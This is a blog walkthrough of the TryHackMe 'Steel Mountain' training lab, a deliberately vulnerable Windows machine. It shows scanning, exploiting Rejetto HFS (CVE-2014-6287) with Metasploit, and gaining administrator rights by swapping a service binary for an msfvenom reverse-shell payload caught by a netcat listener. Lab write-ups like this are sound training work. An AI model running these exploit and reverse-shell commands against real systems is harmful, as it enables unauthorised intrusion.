+++
tags = ["TryHackMe", "Metasploit", "Powershell", "Windows", "HFS", "Rejetto"]
title = "Steel Mountain - TryHackMe"
weight = 10
draft = false
images = [ "/walkthroughs/Steel Mountain/logo.png" ]
description = "Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilize powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access."
+++


Date written: December 2023      
Date published: December 2023

## Task 1: Introduction 

"In this room you will enumerate a Windows machine, gain initial access with Metasploit, use Powershell to further enumerate the machine and escalate your privileges to Administrator." - [TryHackMe](https://tryhackme.com/room/steelmountain).

As always the first step to a TryHackMe room is to connect to either OpenVPN or AttackBox. I am going to use my own Kali virtual machine with OpenVPN for this room. If you have never connected to OpenVPN before see TryHackMe's [room](https://tryhackme.com/room/openvpn) on how to connect. 

Once the machine is deployed I read the first question and did, what I thought to be, the most logical option - open the machines IP in a web browser. 

Success, there is a web page tied to this machine. The web page has an image of Steel Mountain's Employee of the Month and not much else. If you right click and select "inspect" the browser will bring up the developer tools and show the source code. The same thing can be achieved by selecting "Ctrl + U" on your keyboard. This will open the source code in a new window instead of the same window. 

Once the source code is displayed I see that the image is titled BillHarper.png, leading me to believe the employees name is Bill Harper. 

> Deploy the machine. Who is the employee of the month?

> Answer: Bill Harper

## Task 2 Initial Access 

Next I'll run a basic NMAP scan on the machine ```nmap 10.10.14.216```.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.14.216         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-25 22:54 EST
Nmap scan report for 10.10.14.216
Host is up (0.16s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
8080/tcp  open  http-proxy
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
```



So I see that the machines has 11 ports open, some of which do not have a service identified, but I don't need to know those just yet.

Now I know port 80 and 443 are the standard ports for webservers/websites, but what if those were the only ports I knew about. Well there is one port that seems similar and has a similar service so I could guess, but I could also research non-standard ports. 

- [Internet Assigned Numbers Authority](https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml?search=8080#Aronetics_LLC)

- [Wikipedia: List of TCP and UDP port numbers](https://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers)

- [Port Confusion - Is Security Through Obscurity Bad?](https://www.jscape.com/blog/using-nonstandard-ports-is-security-through-obscurity-really-bad)

- [Non-Standard Ports are Under Cyberattack](https://blog.sonicwall.com/en-us/2019/05/non-standard-ports-are-under-cyberattack/)

After some research I now know that the nonstandard webserver port is port 8080. I also know that non-standard ports are a security risk. 

> Scan the machine with nmap. What is the other port running a web server on?

> Answer: 8080

The next question asks you to look at the other webserver and I can do that by designating which port I want the traffic routed to by putting a colon at the end my IP and typing the port. ```MACHINE_IP:8080```

After navigating to port 8080 I see that the server is running HTTP File Server (HFS) by Rejetto. Clicking on the HFS file version number will take you to the [introduction page](https://www.rejetto.com/hfs/) for HFS.

> Take a look at the other web server. What file server is running?

> Answer: Rejetto HTTP File Server

The next two questions I strung together a little to be able to find the correct CVE number. In searchsploit I searched for ```HFS 2.3``` which returned only a few results, but filtered down to the only Metasploit module since the following question states to use Metasploit. 

Once my results were filtered down I used the ``-p`` flag to find the exploit database link, which then displays the CVE number.

```searchsploit 34926 -p```





> What is the CVE number to exploit this file server?

> Answer: 2014-6287

Then I launched Metasploit with ```msfconsole```. If you have never interacted with Metasploit before I highly recommend going through a few tutorials or courses to get the feel for the tool. 

- [N00BLinux - Metasploit Tutorial for Beginners – Basics to Advanced](https://nooblinux.com/metasploit-tutorial/)
- [Hackersploit](https://hackersploit.org/) has a phenomenal course for just about everything pentest related, but I've gone through his [Metasploit](https://hackersploit.org/metasploit-tutorials/) course and love it. He also teaches most of the eJPT course from eLearnSecurity. 

I then searched for hfs 2.3 and looked for an exploit with the same name or description as the one we saw on the exploit database. After the search completed and I found a module I selected it with ```use 1``` which is the ID of the exploit. I could have also used ```use /exploit/windows/http/rejetto_hfs_exec```.



Next I ran ```show options``` to see which options I needed to set. The only things that I have to set for this module are RHOSTS and RPORT, which can be set with ```set RHOSTS TARGET_IP``` and ```set RPORT 8080```.



Type ```run``` or ```exploit``` to start the attack.

{}
I did switch from a Kali VM to TryHackMe's attackbox here due to some network throttling.
{} 



Now that I have a shell I have to figure out where the Meterpreter shell is located by running ```ls``` to list out what files are in my current location and then ```pwd``` to print the working directory path. 

The shell is in the **C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup** folder so to get to the flag I need to move to Bill's Desktop by using the ```cd``` command. Once I have moved to the Desktop I can ```cat``` the flag. I did notice that the windows command of type does not work here which is strange.



> Use Metasploit to get an initial shell. What is the user flag?

> Answer: cat the contents of "user.txt". There are two characters on the front of the flag that you do not need. 

## Task3: Privilege Escalation  

On your machine you will want do download a Powershell script called PowerUp. First you will want to navigate to the Github page provided in THM. 



Select "Raw". Then use [this link](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) with our ```wget``` command. 

{}
Learn more about wget [here](https://www.geeksforgeeks.org/wget-command-in-linux-unix/).
{} 



```cd``` into your **/opt** directory and type ```wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1```. This will download the script to your /opt directory. 



After you have the PowerUp script downloaded to your machine go back to your Meterpreter shell to upload the script with ```upload /opt/PATH TO POWERUP```.



Once uploaded you can load power shell with ```load powershell``` and then ```powershell_shell```. After it is loaded the next thing to do is run the script with ```. .\PowerUp.ps1``` and then ```Invoke-AllChecks```. If one of these does not work make sure your are in the correct directory with in Meterpreter and that you are putting a space between the two periods when invoking the script. 



> To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell:

> Answer: No answer needed

After waiting some time you will get a long list of results. The one we are specifically looking for is one where the service can be restarted.


> Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

> Answer: AdvancedSystemCareService9



Now that we know the service the next thing to do is to create an msfvenom shell. Back on your desktop open a new terminal and type in ```msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=1234 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe```



{}
Learn more about **msfvenom**:

- [Metasploit Unleashed by Offsec](https://www.offsec.com/metasploit-unleashed/msfvenom/)
- [Msfvenom Tutorials for Beginners](https://www.hackingarticles.in/msfvenom-tutorials-beginners/)
- [Working with Payload Metasploit in Kali Linux by Geeks for Geeks](https://www.geeksforgeeks.org/working-with-payload-metasploit-in-kali-linux/)
{} 

In a new terminal or clear your existing one we want to start a [Netcat listener](https://blog.natem135.com/posts/using-a-netcat-listener/) on the same port as your specified msfvenom shell - port 1234.



Moving back to your Meterpreter shell use ```Ctrl+C``` to exit powershell and ```cd``` to **"C:\Program Files (x86)\IObit\Advanced SystemCare"**. 

Once in the Advanced systemCare directory you will want to type ```shell``` to get a regular command shell. Then you can stop the AdvancedSystemCareService9 service with ```sc stop AdvancedSystemCareService9```. If you try to upload your shell before stopping the service you will get an error. 



Once the service is stopped we can upload our shell with the same upload command as before, but make sure you type ```^c``` to get back to a Meterpreter shell first. 



Once uploaded type ```shell``` again and start the service with ```sc start AdvancedSystemCareService9```.



> Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.
>
> Note: The service showed up as being unquoted (and could be exploited using this technique), however, in this case we have exploited weak file permissions on the service files instead.

> Answer: No answer needed

Now go back to your Netcat listener and you should have a shell.



Finally cd to your Desktop and ```type``` the contents of your root flag.

> What is the root flag?

> Answer: ```type``` the contents of the "root.txt" file located on the Administrators Desktop

